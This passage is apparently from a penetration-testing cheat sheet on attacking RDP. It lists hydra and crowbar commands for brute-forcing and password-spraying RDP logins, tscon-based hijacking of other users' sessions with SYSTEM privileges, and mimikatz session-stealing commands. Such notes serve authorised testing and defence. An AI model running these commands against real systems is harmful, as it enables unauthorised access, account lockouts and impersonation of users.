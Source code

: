 ```
hydra -V -f -L <userslist> -P <passwlist> rdp://$ip

hydra -L user.list -P password.list rdp://$ip
```


### Password Spraying

Be careful, you could lock accounts. 

#### Crowbar

See [crowbar](crowbar.md).

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s $ip/32 -U users.txt -c 'password123'
```

#### Hydra

See [hydra](hydra.md).

```bash
# hydra
hydra -L usernames.txt -p 'password123' $ip rdp
```

### RDP Session Hijacking

With SYSTEM privileges you can access any opened RDP session by any user without the need of knowing the password of the owner.

Then, in Powershell, get opened sessions:

```powershell
query user
```

Access to the selected session:

```powershell
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

**Important**: When you access an active RDP sessions you will kickoff the user that was using it.

You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...).

### Mimikatz Session Hijacking

You could also use mimikatz to steal a session:

```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```
